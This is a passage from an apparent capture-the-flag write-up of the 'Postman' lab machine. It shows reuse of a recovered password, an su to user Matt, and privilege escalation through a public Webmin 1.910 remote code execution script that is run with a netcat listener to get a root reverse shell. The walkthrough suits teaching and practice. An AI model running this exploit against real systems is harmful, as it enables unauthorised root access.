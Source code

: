 And we get the password as: **computer2008**

Let’s see if we can SSH into Matt:

<figure><img src="https://miro.medium.com/v2/resize:fit:507/1*LhQv3mltoXE7xR6EJVnvGQ.png" alt="" height="127" width="507"><figcaption></figcaption></figure>

:/\
Let’s see if this is also the password for Matt:

```
su Matt
```

<figure><img src="https://miro.medium.com/v2/resize:fit:262/1*4l5gjWcgw_r8dymqLRnK6g.png" alt="" height="96" width="262"><figcaption></figcaption></figure>

And we are Matt!\
Get **user.txt** from **/home/Matt/user.txt**

## **Priv ESC**

Now, time for privilege escalation. I found that **root** is running Webmin from [pspy](https://github.com/DominicBreuker/pspy). The **version** file in /etc/webmin revealed a version: **1.910**. I searched for exploits and found this:

[GitHub - roughiz/Webmin-1.910-Exploit-Script: Webmin 1.910 - Remote Code Execution Using Python…Webmin 1.910 - Remote Code Execution Using Python Script - GitHub - roughiz/Webmin-1.910-Exploit-Script: Webmin 1.910 …github.com](https://github.com/roughiz/Webmin-1.910-Exploit-Script?source=post\_page-----5d31df5bf6d9--------------------------------)

We need login creds for this. I tried to login in the webmin login page with Matt’s creds and it worked! So, we can use the exploit now. I ran this while a nc listener was set-up:

```
python2 exploit.py --rhost postman.htb --rport 10000 -u Matt -p computer2008 --lhost 10.10.14.88 --lport 1234 -s true
```

<figure><img src="https://miro.medium.com/v2/resize:fit:520/1*k8QvA1sYP1ZfuZjy7Ygp3A.png" alt="" height="171" width="520"><figcaption></figcaption></figure>

And we are **root**!\
Get **root.txt** from **/root/root.txt**
